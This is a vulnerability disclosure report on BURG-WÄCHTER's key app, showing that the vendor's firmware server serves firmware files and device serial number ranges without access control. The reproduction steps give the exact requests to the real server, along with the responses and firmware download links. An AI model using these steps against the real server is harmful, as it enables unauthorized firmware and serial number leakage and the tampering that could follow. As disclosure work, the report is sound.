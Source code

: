# Vulnerability Report - de.burgwachter.keyapp.app- Incorrect Access Control

**Product:** `de.burgwachter.keyapp.app` 

**Vendor:** [BURG-WÄCHTER KG](https://burg.biz/)

**Version:** 4.5.0

**Vulnerability Type:** Incorrect Access Control

**Severity:** High

## Description

The `de.burgwachter.keyapp.app` , developed by **BURG-WÄCHTER KG**, suffers from an Incorrect Access Control vulnerability during the device firmware update process. The app uses HTTPS requests to download firmware updates. By reverse engineering the app, it was possible to identify the firmware download mechanism and the download link. Dynamic testing revealed that the vendor's firmware server lacks proper access control, leading to **firmware leakage** and **Device SN leakage**.

## Reproduction Steps

1. The `f27435a` Field value in the `onPostExecute` method  and `Downloader`'s parameter value in the `m4703c` method provide the necessary URL and other information required for the HTTP request. Static reverse engineering allows for the reconstruction of the complete request as follows:

   ![image-20241003120709987](https://s2.loli.net/2024/10/03/kBQew2aYrOPqXDZ.png)

   ![image-20241003120826571](https://s2.loli.net/2024/10/03/sUL4S6DJaCIhkfH.png)

2. Sending this URL request to the firmware server results in a direct response containing the latest firmware information as follows:

   > Request

   ```http
   GET https://transfer.burg-waechter.net/firmware/SecuEntryFirmwareList.xml HTTP/2
   User-Agent: Fiddler Everywhere
   Host: transfer.burg-waechter.net
   
   
   ```

   ```http
   GET https://transfer.burg-waechter.net/firmware/sE_CYL_FwList_EN.xml HTTP/2
   User-Agent: Fiddler Everywhere
   Host: transfer.burg-waechter.net
   
   
   ```

   > Response:

   ```http
   HTTP/2 200
   last-modified: Tue, 01 Oct 2024 12:57:23 GMT
   etag: "4a6b-62369dccf52e3"
   accept-ranges: bytes
   content-length: 19051
   vary: Accept-Encoding,User-Agent
   content-type: application/xml
   date: Thu, 03 Oct 2024 04:10:40 GMT
   server: Apache
   
   <?xml version="1.1" encoding="utf-8"?>
   <FirmwareUpdateInfo CreationTime="22-06-2022 09:51:34">
     <Unit type="secuENTRY 5700 Basic">  	
       <module type="secuENTRY Profile cylinder 5700 Basic"> 
       <Part type="Profile cylinder V3.0">
          <Name>WARNING! from Version 1.7 / Bridge compatible</Name>
          <Version>3.0</Version>
          <FileLink>https://transfer.burg-waechter.net/firmware/secuENTRY-5700std/EPC5700-V30-C0C80FCA624AE91418C50599CD9CD7F3.bwf</FileLink>
       </Part>                                    
      </module>                 
     </Unit>  
     ......
    
   ```

   ```http
   HTTP/2 200
   last-modified: Wed, 17 Jul 2024 10:59:13 GMT
   etag: "1317-61d6f5a435bb8"
   accept-ranges: bytes
   content-length: 4887
   vary: Accept-Encoding,User-Agent
   content-type: application/xml
   date: Thu, 03 Oct 2024 04:11:02 GMT
   server: Apache
   
   <?xml version="1.0" encoding="utf-8"?>
   <FirmwareUpdateInfo CreationTime="05-01-2022 16:00:01">
   <SerialNumber SnStart="275218432" SnEnd="275382271">
   	<Version SoftwareVersion="2.6">
   		<module type="secuENTRY easy Profile cylinder CYL 7600 "> 
   			<Part type="secuENTRY CYL 7600 V2.6">
   				  <Name>WARNING! With the new software version, only Burg-Wachter RFID tags are now supported. RFID-Tags from other manufacturer will be blocked. </Name>
   				  <FileLink>https://transfer.burg-waechter.net/firmware/secuENTRY_CYL_FW/EPC7600-V26-C206E7EFF571C99C6FC7E4CB4B459666.bwf</FileLink>
   		  </Part>
   		</module>
   	</Version>
   </SerialNumber> 
     ......
   ```

   

3. Consequently, the unprotected firmware can be directly downloaded using this information.

   ![image-20241003121346484](https://s2.loli.net/2024/10/03/8HJgzDSwFoB2E7M.png)
   
   In total, we successfully downloaded **35 firmware** by exploiting the vulnerability. Meanwhile, the information in the Response leaks the **SN** of the devices.


## Impact

An attacker can exploit this vulnerability to:

* Download the latest firmware before it is officially released.
* Analyze the firmware for vulnerabilities or proprietary information.
* Create modified firmware images with malicious code.
* Distribute compromised firmware updates to unsuspecting users.

## Remediation

* Implement proper access control on the firmware server, such as device ID and user ID verification.
* Enhance the app's firmware update mechanism to include authentication credentials in the requests.


## Disclaimer

This vulnerability report is provided for informational purposes only and should not be used for any malicious activities. The author is not responsible for any misuse of the information contained herein.